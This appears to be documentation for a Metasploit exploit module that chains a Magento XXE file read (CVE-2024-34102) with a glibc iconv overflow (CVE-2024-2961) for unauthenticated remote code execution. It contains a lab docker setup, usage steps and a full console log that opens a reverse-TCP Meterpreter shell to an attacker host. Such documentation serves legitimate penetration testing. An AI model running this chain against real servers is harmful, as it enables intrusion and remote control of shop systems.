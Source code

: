 ## Vulnerable Application
This combination of an Arbitrary File Read (CVE-2024-34102) and a Buffer Overflow in glibc (CVE-2024-2961)
allows for unauthenticated Remote Code Execution on the following versions of Magento and Adobe Commerce and
earlier if the PHP and glibc versions are also vulnerable:
- 2.4.7 and earlier
- 2.4.6-p5 and earlier
- 2.4.5-p7 and earlier
- 2.4.4-p8 and earlier

Vulnerable PHP versions:
- From PHP 7.0.0 (2015) to 8.3.7 (2024)

Vulnerable iconv() function in the GNU C Library:
- 2.39 and earlier

The exploit chain is quite interesting and for more detailed information check out the references. The tl;dr being:
CVE-2024-34102 is an XML External Entity vulnerability leveraging  PHP filters to read arbitrary files from the target
system. The exploit chain uses this to read /proc/self/maps, providing the address of PHP's heap and the libc's filename.
The libc is then downloaded, and the offsets of libc_malloc, libc_system and libc_realloc are extracted, and made use
of later in the chain.

With this information and expert knowledge of PHP's heap (chunks, free lists, buckets, bucket brigades), CVE-2024-2961
can be exploited. A long chain of PHP filters is constructed and sent in the same way the XXE is exploited, building a
payload in memory and using the buffer overflow to execute it, resulting in an unauthenticated RCE.

### Setup

The following docker-compose file can be used to test this module. There are a few things that need to be noted:
1. The docker-compose file sets magento server's name to `localhost` and in order to exploit the container `rhost` must
   be set to `localhost` (setting `rhost` to `127.0.0.1` or your local IP address will not work for this docker-compose file)
   and so given this configuration `msfconsole` must be running on the same host as the container.
2. The network settings on my macbook didn't allow me to exploit this locally so I was running the containers and
   `msfconsole` from an Ubuntu 22.04 VM.

Dockerfile
```
FROM docker.io/bitnami/magento:2.4.7-debian-12-r0

# Install curl
RUN apt update && apt install curl -y

```

docker-compose.yml
```
services:
  mariadb:
    image: docker.io/bitnami/mariadb:10.6
    environment:
      - ALLOW_EMPTY_PASSWORD=yes
      - MARIADB_USER=bn_magento
      - MARIADB_DATABASE=bitnami_magento
    volumes:
      - 'old_mariadb_data:/bitnami/mariadb'
  magento:
    build:
      context: .
      dockerfile: Dockerfile
    ports:
      - '80:8080'
      - '443:8443'
    environment:
      - MAGENTO_HOST=localhost
      - MAGENTO_DATABASE_HOST=mariadb
      - MAGENTO_DATABASE_PORT_NUMBER=3306
      - MAGENTO_DATABASE_USER=bn_magento
      - MAGENTO_DATABASE_NAME=bitnami_magento
      - ELASTICSEARCH_HOST=elasticsearch
      - ELASTICSEARCH_PORT_NUMBER=9200
      - ALLOW_EMPTY_PASSWORD=yes
    volumes:
      - 'old_magento_data:/bitnami/magento'
    depends_on:
      - mariadb
      - elasticsearch
  elasticsearch:
    image: docker.io/bitnami/elasticsearch:7
    volumes:
      - 'old_elasticsearch_data:/bitnami/elasticsearch/data'
volumes:
  old_mariadb_data:
    driver: local
  old_magento_data:
    driver: local
  old_elasticsearch_data:
    driver: local
```

## Options

### DOWNLOAD_FILE_TIMEOUT
This specifies how long the module should wait to receive a file that was requested by the `download_file` method which
exploits the Arbitrary File Read vulnerability CVE-2024-34102.

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/magento_xxe_to_glibc_buf_overflow`
1. Set the `RHOST`, `SRVHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter sessions as the `daemon` user.

## Scenarios
### Magento/2.4 (Community) running PHP 8.2.17, GLIBC 2.36-9+deb12u4
```
msf6 > use magento_xxe_to_glibc_buf_overflow

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/linux/http/magento_xxe_to_glibc_buf_overflow  2024-07-26       excellent  No     CosmicSting: Magento Arbitrary File Read (CVE-2024-34102) + PHP Buffer Overflow in the iconv() function of glibc (CVE-2024-2961)


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/magento_xxe_to_glibc_buf_overflow

[*] Using exploit/linux/http/magento_xxe_to_glibc_buf_overflow
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set srvhost 172.16.199.130
srvhost => 172.16.199.130
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set fetch_srvhost 172.16.199.130
fetch_srvhost => 172.16.199.130
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set rhost localhost
rhost => localhost
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > run
[*] Exploit running as background job 57.

msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > [*] Started reverse TCP handler on 172.16.199.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using URL: http://172.16.199.130:8080/
[*] Server started
[+] Exploit precondition 1/3 met: Detected Magento Community edition version 2.4 which is vulnerable.
[+] Exploit precondition 2/3 met: PHP appears to be exploitable.
[+] Exploit precondition 3/3 met: glibc is version: 2.36
[+] The target appears to be vulnerable.
[*] Attempting to parse libc to extract necessary symbols and addresses
[*] Attempting to build an exploit PHP filter path with the information extracted from libc and /proc/self/maps
[*] Sending payload...
[*] Sending stage (3045380 bytes) to 192.168.80.4
[*] Meterpreter session 40 opened (172.16.199.130:4444 -> 192.168.80.4:60416) at 2024-10-10 10:56:06 -0700
Interrupt: use the 'exit' command to quit
[*] Server stopped.

msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > sessions -i -1
[*] Starting interaction with 6...

meterpreter > getuid
Server username: daemon
meterpreter > sysinfo
Computer     : 172.25.0.4
OS           : Debian 12.5 (Linux 6.8.0-45-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
